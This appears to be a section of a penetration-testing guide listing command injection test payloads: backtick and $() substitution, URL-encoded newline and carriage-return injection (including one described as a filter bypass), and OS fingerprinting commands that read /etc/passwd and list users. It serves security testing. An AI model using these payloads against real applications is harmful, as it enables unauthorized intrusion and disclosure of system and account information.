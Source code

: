 #### Command Substitution Tests

Tests if the application allows command output to be used as input:

```bash
# Backtick (`) substitution
`command`             # Classic command substitution
echo `whoami`        # Outputs result of whoami
ping `hostname`      # Pings the result of hostname

# Dollar substitution
$(command)           # Modern command substitution
echo $(id)          # Outputs result of id
cat $(locate passwd) # Reads files found by locate

# Nested substitution
$(echo `whoami`)    # Nested classic in modern
`echo $(hostname)`  # Nested modern in classic
```

#### Newline Injection Tests

Tests if the application properly handles line breaks in commands:

```bash
# URL encoded newlines
command1%0acommand2  # %0a represents \n
ping%0aid           # Executes ping, then id on new line
whoami%0als         # Runs whoami, then ls

# Carriage return injection
command1%0dcommand2  # %0d represents \r
echo test%0dcat /etc/passwd  # Potentially bypasses filters
```

#### OS Detection Tests

Identifies target operating system using specific commands:

```bash
# Windows specific commands
ver                  # Shows Windows version
systeminfo          # Detailed system information
type C:\Windows\System32\drivers\etc\hosts  # Reads hosts file
net user            # Lists users
dir C:\             # Lists root directory

# Linux specific commands
uname -a            # Kernel and system information
cat /etc/issue      # Distribution information
cat /proc/version   # Kernel version information
lsb_release -a      # Distribution details
cat /etc/passwd     # User account information
```
